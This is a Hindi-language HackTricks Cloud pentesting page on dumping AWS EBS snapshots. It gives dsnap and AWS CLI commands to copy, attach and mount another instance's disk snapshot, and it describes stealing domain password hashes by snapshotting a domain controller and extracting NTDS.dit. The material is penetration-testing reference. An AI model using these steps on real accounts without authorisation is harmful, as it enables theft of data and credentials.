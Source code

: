 # AWS - EBS स्नैपशॉट डंप

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके साझा करें।

</details>

### स्नैपशॉट की स्थानिक जांच करना
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
इस तकनीक के बारे में अधिक जानकारी के लिए [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/) पर मूल अनुसंधान की जांच करें।

आप Pacu का उपयोग करके इसे कर सकते हैं, मॉड्यूल [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) का उपयोग करके।

### AWS में एक स्नैपशॉट की जांच करना

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**इसे अपने नियंत्रण में एक EC2 VM में माउंट करें** (यह बैकअप की प्रतिलिपि के रूप में समान क्षेत्र में होनी चाहिए):

**चरण 1:** EC2 -&gt; वॉल्यूम पर जाएं और अपनी पसंदीदा आकार और प्रकार की एक नई वॉल्यूम बनाएं।

**चरण 2:** बनाई गई वॉल्यूम का चयन करें, उसे दायां क्लिक करें और "वॉल्यूम जोड़ें" विकल्प का चयन करें।

**चरण 3:** निम्न दिए गए चित्र में दिखाए गए तत्व बॉक्स से इंस्टेंस का चयन करें।

![](<../../../../.gitbook/assets/image (6) (1) (1).png>)

**चरण 4:** अब, अपने EC2 इंस्टेंस में लॉगिन करें और निम्नलिखित कमांड का उपयोग करके उपलब्ध डिस्क की सूची बनाएं।
```
lsblk
```
ऊपर का कमांड आपके इंस्टेंस के साथ जुड़े डिस्क की सूची बनाएगा।

**चरण 5:**

![](<../../../../.gitbook/assets/image (59).png>)

आप Pacu का उपयोग करके ebs\_\_explore\_snapshots मॉड्यूल का उपयोग करके इसे कर सकते हैं

### AWS में स्नैपशॉट की जांच (cli का उपयोग करके)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### शैडो कॉपी

**`EC2:CreateSnapshot`** अनुमति रखने वाले किसी भी AWS उपयोगकर्ता को डोमेन के सभी उपयोगकर्ताओं के हैश चुरा सकते हैं, डोमेन कंट्रोलर की एक स्नैपशॉट बनाकर उसे अपने कंट्रोल वाले इंस्टेंस में माउंट करके और Impacket के secretsdump प्रोजेक्ट के साथ उपयोग के लिए NTDS.dit और SYSTEM रजिस्ट्री हाइव फ़ाइल को निर्यात करके।

आप इस टूल का उपयोग करके हमला स्वचालित कर सकते हैं: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) या आप स्नैपशॉट बनाने के बाद पिछले तकनीकों में से किसी एक का उपयोग कर सकते हैं।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे ट्विटर पर फ़ॉलो करें** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>
